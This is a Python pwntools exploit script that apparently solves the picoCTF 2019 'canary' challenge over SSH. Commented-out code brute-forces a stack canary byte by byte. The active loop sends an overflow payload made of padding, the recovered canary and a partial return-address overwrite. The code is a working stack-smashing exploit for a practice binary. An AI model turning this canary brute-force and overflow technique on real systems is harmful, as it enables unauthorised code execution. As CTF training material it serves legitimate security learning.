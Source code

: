 ```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")

def start():
  global sh
  if len(argv) < 2:
    stdout = process.PTY
    stdin = process.PTY

    sh = process(BINARY, stdout=stdout, stdin=stdin)

    # if DEBUG:
    #   attach_gdb()

    REMOTE = False
  else:
    
    sh = s.process('vuln', cwd='/problems/canary_4_221260def5087dde9326fb0649b434a7')
    REMOTE = True

# key = ''
# for i in range(4):
#   for c in range(256):
#     start()
#     c = chr(c)
#     sh.sendlineafter('> ', str(33+i))
#     sh.sendlineafter('> ', 'a'*32+key+c)
#     data = sh.recvall()
#     if 'Stack Smashing Detected' not in data:
#       key += c
#       print enhex(key)
#       break
#   else:
#     print 'error'
#     exit()

key = unhex('4c6a6748')

while True:
  start()
  

  sh.sendlineafter('> ', str(32+4+12+6))
  sh.sendlineafter('> ', 'a'*32+key+'a'*(4+12)+'\xed\x07')
  # sh.interactive()
  data = sh.recvall(timeout=0.5)
```